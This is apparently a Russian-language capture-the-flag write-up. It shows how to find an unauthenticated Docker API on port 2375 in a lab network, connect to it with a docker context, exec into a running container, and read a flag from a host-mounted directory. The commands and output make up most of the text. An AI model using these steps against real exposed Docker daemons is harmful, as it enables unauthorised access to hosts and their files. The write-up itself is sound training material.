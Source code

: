 # Контейнеры

Сканируем всю сеть и находим этот хост и порт на нём: `10.10.13.46:2375`. Там находится Docker. Создаём у себя контекст:
```bash
docker context create nto --docker "host=tcp://10.10.13.46:2376"
```

Видим один запущенный контейнер:
```bash
└─$ docker ps -a
CONTAINER ID   IMAGE               COMMAND                  CREATED        STATUS                      PORTS     NAMES
82b4f0f6fe52   nginx:latest        "/docker-entrypoint.…"   2 months ago   Up 3 days                   80/tcp    root-ubuntu-1
85d722bc884a   nginx:latest        "/docker-entrypoint.…"   4 months ago   Exited (0) 4 months ago               user-ubuntu-1
324b745a1a2d   nginx               "/docker-entrypoint.…"   4 months ago   Exited (0) 4 months ago               fervent_murdock
51a85f0216b8   hello-world         "/hello"                 4 months ago   Exited (0) 4 months ago               competent_brattain
7797dc0d603b   containous/whoami   "/whoami"                4 months ago   Exited (2) 4 months ago               bold_fermi
3e8e66c5db8c   containous/whoami   "/whoami -d"             4 months ago   Exited (2) 4 months ago               gallant_sammet
99e8ba8a99c1   containous/whoami   "/whoami"                4 months ago   Exited (2) 4 months ago               peaceful_wing
d9ef89a57178   containous/whoami   "/whoami"                4 months ago   Exited (255) 4 months ago   80/tcp    amazing_greider
```

exec-каемся в него, и по пути `/hostdir/home/user/flag.txt` находим флаг:
```bash
root@82b4f0f6fe52:~# cat /hostdir/home/user/flag.txt
nto{Ne_Zabyavay_Zakryavat_Socket_2375}
```

**Флаг:** `nto{Ne_Zabyavay_Zakryavat_Socket_2375}`